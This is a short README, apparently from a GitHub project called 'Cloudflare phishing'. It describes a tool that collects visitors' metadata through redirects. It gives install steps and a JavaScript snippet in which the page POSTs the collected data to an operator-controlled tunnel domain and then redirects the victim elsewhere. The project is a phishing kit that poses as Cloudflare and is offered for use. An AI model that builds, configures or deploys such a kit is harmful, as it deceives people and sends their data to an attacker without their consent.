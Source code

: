 # Cloudflare phishing
## That's useful thing for gathering meta-datas by using redirect in other sites.
---
### Getting start
- Installing dependencies
```bash
# In directory Frontend you have to install dependencies for bun
$ bun install

# In root directory, you have to install flask from requriments.txt
$ pip install -r requriments.txt
```
### CHANGES
- In directory Frontend, exists file App.tsx, you have to change below:
```js
// Redirect
setTimeout(() => {
      window.location.href = "http://<DOMAIN FOR REDIRECT>";
    }, 1000);

// Your tunnel
const response = await fetch(
      "http://<DOMAIN YOUR TUNNEL>",
      {
        method: "POST",
        headers: {
          "Content-Type": "application/json",
        },
        body: JSON.stringify(data),
      }
    );

```
![Cloudflare](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Faetoswire.com%2Fstorage%2Fclients%2Fclient-6590%2Fcloudflare-logo.png&f=1&nofb=1&ipt=f3aa7db60d7aff2b18233ec9b7657ca42488796ee5df52b2116aadb56b27bc3e)
